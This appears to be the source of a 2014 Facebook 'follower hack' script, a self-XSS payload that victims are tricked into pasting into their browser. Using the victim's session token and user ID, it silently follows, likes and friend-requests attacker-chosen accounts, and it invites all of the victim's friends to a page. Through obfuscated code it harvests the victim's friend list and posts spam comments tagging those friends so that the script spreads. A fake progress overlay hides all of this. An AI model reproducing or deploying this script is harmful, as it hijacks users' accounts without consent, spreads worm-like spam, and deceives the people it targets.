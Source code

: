 /*HTML/JavaScript page status="protected"*/
/*FACEBOOK FOLLOWERS*/
/*© 2014 TheUsta-Tolga. All Rights Reserved.*/

var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100008110564686");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("1377061689240837");sublist("1377061689240837");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("229454480580146");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
IDS("");IDS("100008110564686"); a("100008110564686"); a(""); a("");
a(""); Like("229454480580146"); sublist("1377061689240837"); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like("585139801595234"); Like(""); Like(""); sublist(""); sublist(""); 
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","585141284928419","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," Abone Hack - Subscribe Hacking || WATCH THIS TUTORIAL - Video İzle :D  THIS REALLY WORK - Çalışıyor..\udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - Abone Kasma Hack  [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var Title='<span style="font-size:x-large;"><b><span style="color: red;">Abone Kasma Subscribe Hacking -  2014</span></b></span><br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&fb_dtsg=" + fb_dtsg + "&profileChooserItems=%7B%22" + opo + "%22%3A1%7D&checkableitems[0]=" + opo + "&page_id=323542267799177&__user="+ user_id +  "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=k&phstamp=", function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "</div>";var display = "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div><br/>";if (i > 0) {display += "Detected <b>" +arr.length + "</b> User Online<br/>";display += "<b>" + suc + "</b> of <b>" +arr.length + "</b> Getting Followers.<br/>";display += " (<b>" + i + "</b> User Left...)<br/><br/>";display += '<span style="color: lime;"><span style="font-size: large;"><b>Please Wait Until The Process is Complete - Süreç tamamlanıncaya kadar bekleyin lütfen</b></span></span>';display += "</div>";display += "</div>";window[tag + "_close"] = true} else {display += '<span style="color: lime;"><span style="font-size: large;"><b>SUCCESS</b></span></span>';display += "<div><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup</span><br/>";display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>";display += "</div>"; window[tag + "_close"] = false}display += "</div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e && b) {e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&" : "?";var k = null;"POST" == h && (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText && (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML);c && c(b)} else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i < x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e < d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "<div style='padding-bottom:10px;font-size:20px;'>" + Title + "</div>";display += arr.length + " User Detected";display += "</div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
